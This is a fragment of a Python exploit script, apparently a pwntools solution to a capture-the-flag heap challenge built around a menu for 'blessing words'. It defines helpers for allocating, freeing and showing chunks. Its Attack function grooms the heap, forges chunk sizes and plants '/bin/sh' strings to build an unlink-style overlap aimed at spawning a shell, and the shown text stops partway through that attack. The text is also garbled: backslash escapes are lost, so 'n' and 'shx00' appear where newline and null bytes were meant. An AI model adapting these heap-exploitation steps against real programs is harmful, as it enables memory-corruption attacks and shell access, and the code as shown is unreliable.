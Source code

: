 ```
    # testnokill.__main__()
    return

def creat(sh,chunk_size,value):
    sh.recvuntil('&gt;')
    sh.sendline('1')
    sh.recvuntil('Your blessing words length :')
    sh.sendline(str(chunk_size))
    sh.recvuntil('Best wishes to them!')
    sh.send(value)

def delete(sh,index):
    sh.recvuntil('&gt;')
    sh.sendline('2')
    sh.recvuntil('input the idx to clean the debuff :')
    sh.sendline(str(index))

def show(sh,index):
    sh.recvuntil('&gt;')
    sh.sendline('3')
    sh.recvuntil('input the idx to show your blessing :')
    sh.sendline(str(index))


def Attack(sh=None,ip=None,port=None):
    while True:
        sh = get_sh()
        # Make unlink
        for i in range(7):
            creat(sh, 0x28 , 'chunk_' + str(i) + 'n')
        for i in range(7):
            creat(sh, 0x18 , '/bin/shx00' + 'n')
        for i in range(7):
            creat(sh, 0x38 , '/bin/shx00' + 'n')
        creat(sh, 0x9B8 , 'pad' + 'n')
        # creat(sh, 0x18  , 'Test' + 'n')

        creat(sh, 0x5E0 , 'chunk_22' + 'n') 
        creat(sh, 0x18  , 'chunk_23' + 'n')
        delete(sh,22)
        creat(sh, 0x618 , 'chunk_22' + 'n')

        creat(sh, 0x28  , 'a' * 8 + p64(0xe1) + p8(0x90))

        creat(sh, 0x28  , 'chunk_25' + 'n')
        creat(sh, 0x28  , 'chunk_26' + 'n')
        creat(sh, 0x28  , 'chunk_27' + 'n')
        creat(sh, 0x28  , 'chunk_28' + 'n')

        for i in range(7):
            delete(sh, i)

        delete(sh, 25)
        delete(sh, 27)

        for i in range(7):
            creat(sh, 0x28 , 'chunk_' + str(i) + 'n')

        creat(sh, 0x618 , 'chunk_25' + 'n')

        creat(sh, 0x28  , 'b' * 8 + p8(0x10))
        creat(sh, 0x28  , 'chunk_1')

```